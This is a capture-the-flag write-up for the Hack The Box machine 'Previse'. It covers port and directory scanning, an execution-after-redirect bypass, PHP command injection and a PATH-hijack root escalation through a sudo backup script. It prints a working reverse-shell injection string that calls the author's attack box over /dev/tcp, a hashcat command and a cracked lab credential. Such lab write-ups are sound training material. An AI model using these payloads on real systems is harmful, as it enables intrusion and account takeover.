 ```yaml
---
title: "[HTB] Machine: Previse"
description: "[HTB] Machine: Previse"
date: 2023-08-08
menu:
  sidebar:
    name: "[HTB] Machine: Previse"
    identifier: htb-machine-Previse
    parent: htb-machines-linux
    weight: 10
hero: images/previse.png
tags: ["HTB", "execute-after-redirect", "source-code", "php injection", "command-injection", "path-hijack", "hashcat", "sudo"]
---
```


# Previse
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.11.104 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-15 20:03 BST
Nmap scan report for 10.10.11.104 (10.10.11.104)
Host is up (0.14s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Previse Login
|_Requested resource was login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.90 seconds

```
- Web Server

![](./1.png)

- If we check `burp` we can see that visiting `/` redirects to `login.php`
  - But `/` page also returns a valid full page
  - It's a [execution after redirect (EAR) vulnerability](https://owasp.org/www-community/attacks/Execution_After_Redirect_(EAR))

![](./2.png)

- `gobuster`
```
└─$ gobuster dir -u http://10.10.11.104 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x txt,php --no-error
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.104
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
2023/08/16 16:07:17 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 302) [Size: 2801] [--> login.php]
/.php                 (Status: 403) [Size: 277]
/download.php         (Status: 302) [Size: 0] [--> login.php]
/login.php            (Status: 200) [Size: 2224]
/files.php            (Status: 302) [Size: 4914] [--> login.php]
/header.php           (Status: 200) [Size: 980]
/nav.php              (Status: 200) [Size: 1248]
/footer.php           (Status: 200) [Size: 217]
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.104/css/]
/status.php           (Status: 302) [Size: 2966] [--> login.php]
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.104/js/]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/accounts.php         (Status: 302) [Size: 3994] [--> login.php]
/config.php           (Status: 200) [Size: 0]
/logs.php             (Status: 302) [Size: 0] [--> login.php]
```
## Foothold
- If we check response from `/` page, we also see other endpoints:
  - `status.php`
  - `files.php`
  - `file_logs.php`
  - `accounts.php`

- So in order to check pages, we can intercept response and change status code to `200 OK`

![](./images/3.png)

- If we visit `accounts.php`, we see that we shouldn't access that page
  - Let's create a user

![](./images/4.png)

- Now we can check other pages
  - We found source files in `/files.php`
  - `logs.php` has `exec()` function call
    - `$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");`

![](./images/5.png)

- If we request data, we have

![](./images/6.png)
![](./images/7.png)

- I tried injecting `id` and other stuff, but had no success
  - But when I tried pinging my attack box, I got connection
  
![](./images/8.png)

- So now let's get reverse shell
  - `delim=comma;bash -c 'bash -i >%26 /dev/tcp/10.10.16.4/6666 0>%261'`
  - Upgrade shell with `python` or `script /dev/null -c bash`

![](./images/9.png)

## User
- Enumerate the box
  - Nothing found, except the access to `db`
    - `config.php` from source files

![](./images/10.png)

- Let's crack the hash
  - It might take a while
    - `hashcat -m 500 hash /usr/share/wordlists/rockyou.txt`
  - `m4lwhere:ilovecody112235!`
  - `ssh` using the creds

![](./images/11.png)

## Root
- Enumerate again
  - `sudo -l`

![](./images/12.png)

- Check the content
```
m4lwhere@previse:~$ cat /opt/scripts/access_backup.sh 
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

- `gzip` is used without full path
  - So let's create our script called `gzip`
  - Modify the `PATH` and run the script

![](./images/13.png)
![](./images/14.png)
![](./images/15.png)
